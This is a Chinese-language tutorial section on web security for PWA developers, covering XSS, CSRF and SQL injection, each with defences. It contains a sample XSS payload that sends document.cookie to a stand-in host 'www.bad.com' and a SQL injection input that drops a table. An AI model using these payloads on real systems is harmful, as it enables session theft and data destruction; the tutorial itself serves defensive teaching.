

## 常见的安全漏洞

在构建 PWA 站点的过程中，我们会面临很多的安全风险和漏洞，如 `XSS`，`CSRF`，`SQL 注入漏洞`，`ClickJacking`，`文件上传漏洞` 等等。在本小节中，我们列举几种客户端常见的安全漏洞，了解一下其原理和防范方法。

### 跨站脚本（XSS）

XSS (Cross Site Scripting) 即跨站脚本攻击。为了和层叠样式表（Cascading Style Sheets，CSS）区分开，跨站脚本在安全领域叫做 XSS。攻击者往 Web 页面里注入恶意代码，当用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取 Cookie 信息、会话劫持、改变网页内容、恶意跳转等各种攻击。由于 XSS 漏洞易于出现且利用成本低，所以曾被 OWASP （一个关注 Web 应用程序安全的非营利性组织）列为当前的头号 Web 安全威胁。

我们举一个简单的例子说明它的原理，在 `a.com` 的搜索输入框中输入如下内容，并提交请求：

```html
<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```

如果前端没有进行过滤，提交搜索框表单后，浏览器地址可能变为：

```
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```

此时，script 标签中的代码被执行了！用户的 Cookie 信息已经被发送到攻击者的服务器，攻击者便能利用收集的 Cookie 信息来伪造用户身份，进行多种恶意非法操作。这个例子是 XSS 漏洞的一种类型：反射性 XSS。根据效果不不同，XSS 攻击类型一般分为三种：

- 反射型 XSS

反射型 XSS 只是简单的把用户输入的数据“反射”给浏览器，XSS 脚本出现在 URL 请求参数里，也就是说需要诱使用户点击一个恶意链接，才能攻击成功。反射型 XSS 也叫作非持久型 XSS。

- 储存型 XSS

存储型 XSS 也被称为持久型 XSS，当攻击者输入一段恶意脚本后，被服务端接受保存，当用户访问这个页面时，恶意脚本就会被执行，从而造成漏洞。

- DOM Based XSS

基于 DOM 的 XSS，通过对具体 DOM 代码进行分析，根据实际情况构造 DOM 节点进行 XSS 跨站脚本攻击，HTML 页面中使用 document.write 和 innerHTML 等方法，容易造成 DOM 节点中存在该类型的 XSS 漏洞。

#### 防范 XSS

对于 XSS 攻击，我们可以做如下防范：

- 输入过滤

永远不要相信用户的输入，对用户输入的数据做一定的过滤。如输入的数据是否符合预期的格式，比如日期格式，Email 格式，电话号码格式等等。同时，后台服务器需要在接收到用户输入的数据后，对特殊危险字符如 `<`，`>` 等进行过滤或者转义处理，然后再存储到数据库中。

- 输出编码

服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范 XSS 攻击。输出 HTML 属性时可以使用 HTML 转义编码（HTMLEncode）进行处理，将 `&`，`<`，`>`，`"`，`'` 等进行转义之后再输出到页面代码中。

- HttpOnly Cookie

这是预防 XSS 攻击窃取用户 Cookie 最有效的防御手段。Web 应用程序在设置 Cookie 时，将其属性设为 HttpOnly，客户端脚本将无法获取 Cookie 的值，这样能有效就避免该网页的 Cookie 被客户端恶意 JavaScript 窃取，保护用户 Cookie 信息安全。


### 跨站请求伪造（CSRF）

CSRF (Cross Site Request Forgery)，即跨站请求伪造，是一种极易被开发者忽略的安全漏洞。简单的理解是，攻击者盗用了用户的身份，以用户的名义发送恶意请求。CSRF 能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账等，造成个人隐私泄露，财产损失。

举个例子，受害者用户登录网站 A，输入个人信息，在本地保存服务器生成的 Cookie。攻击者构建一条恶意链接，例如对受害者在网站 A 的信息及状态进行操作，典型的例子就是转账。受害者打开了攻击者构建的网页 B，浏览器发出该恶意连接的请求，浏览器发起会话的过程中携带了本地保存的 Cookie，A 网站收到 Cookie，以为是受害者发出的操作，导致受害者的身份被盗用，完成攻击者恶意的目的。如下图所示：



#### 防范 CSRF

对于 CSRF 攻击，我们可以做如下防范：

- 验证码

这是一种比较简单有效的方法，它强制用户必须与应用进行交互才能完成最终的请求。特别是账户交易这种核心步骤，强制用户输入验证码，才能完成转账。在通常情况下，验证码够很好地遏制 CSRF 攻击。但增加验证码降低了用户的体验，网站不能给所有的操作都加上验证码。所以只能将验证码作为一种辅助手段，在关键业务点设置验证码。

- Referer Check

HTTP Referer 是 header 的一部分，当浏览器向 Web 服务器发送请求时，一般会带上 referer 信息告诉服务器是从哪个页面链接过来的，服务器以此可以获得一些信息用于处理。可以通过检查请求的来源来防御 CSRF 攻击。正常请求的 referer 具有一定规律，如在提交表单的 referer 必定是在该页面发起的请求。所以通过检查 http 包头 referer 的值是不是这个页面，来判断是不是 CSRF 攻击。

- Anti CSRF Token

目前比较完善的解决方案是加入 Anti CSRF Token，即发送请求时在 HTTP 请求中加入一个随机产生的 token，保证其不可预测性，让攻击者无法猜测重要请求所需的参数。实际应用中，我们可以把 token 隐藏在表单中，服务器验证提交的 token 是否与 session 或 Cookie 中的值一致，来判断该请求是否合法。如果不合法，直接拒绝该请求。

归根到底，防范这种类型的威胁，需要我们在构建 PWA 应用时始终保持安全意识，对于任何敏感操作都要进行身份的确认，涉及到用户敏感信息的 Cookie 数据，需要进行生命周期和读取权限的严格限制，有关更多 CSRF 的防范方法，可以查看 OWASP 总结的文档：https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet 。


### SQL 注入漏洞

注入攻击是 Web 安全领域的一种常见威胁，其本质就是把用户输入的数据当做代码来执行。前面提到的 XSS 其实也是一种针对 HTML 的注入，SQL 注入就是把非法的 SQL 命令通过 Web 表单等方式提交，在服务端后台执行，实现篡改数据库等恶意行为。

我们可以用一个简单的例子说明这种安全漏洞。现在有一条根据用户 uid 查询用户信息的 SQL 语句：

```sql
SELECT * FROM UserTable WHERE ID = uid;
```

其中，变量 uid 的值来自用户提交的请求，在正常情况下，用户输入 123，SQL 语句会执行：

```sql
SELECT * FROM UserTable WHERE ID = 123;
```

查询了用户表中 ID 为 123 的用户的所有字段信息。但假如前后端整个系统中，没有任何的安全处理，有攻击者恶意输入了如下语句：

```sql
123; drop table UserTable;
```

那么 SQL 语句在执行时的结果就是：

```sql
SELECT * FROM UserTable WHERE ID = 123; drop table UserTable;
```

危险出现了！原来正常的查询语句，因为接收了非法的用户输入，变成了极其危险的删除表的操作，数据库安全受到了极大的威胁。

从上面简单示意我们不难想象，SQL 注入的危害极大，不仅会引发数据库中用户隐私信息的泄露，还能篡改数据库的数据，甚至攻击远程数据库服务器，安装后门，造成不可计量的损失。那么我们该如何防御这种安全威胁呢？

在实际开发中，SQL 注入的防御并不是几句话能说清楚的事情，但我们可以从以下几个方面层层改进，让注入的风险降到最低。

1.永远不要信赖用户的输入。对输入的数据进行校验，过滤可能引发注入漏洞的字符，并检查输入的数据类型，如 id 必须为 Interger，输入邮箱严格按照邮箱的格式，日期也必须有特定格式等等，最大程度对抗恶意攻击。

2.使用预编译的参数化查询语句，不要拼接 SQL 语句。也可以使用安全的存储过程，先将 SQL 语句定义在数据库中。

3.严格管理数据库权限，不要使用管理员权限连接数据库。遵循最小权限原则，对不同应用的数据库连接权限进行严格控制。

4.重要信息加密存储。

SQL 注入的防范，需要记住永远将数据和代码分离的原则。只要我们设计并实施了合理的安全防御方案，这种危险完全可以避免。

上文只是简单列举了几种常见的攻击技术，实际情况中我们的应用受到的威胁远不止这些。总的来说，Web 安全是一个范围宽广又需要我们持续深入研究的重要话题，我们在构建 PWA 应用时，也要时刻从威胁防范的角度进行考虑，保障应用的稳定性和安全性。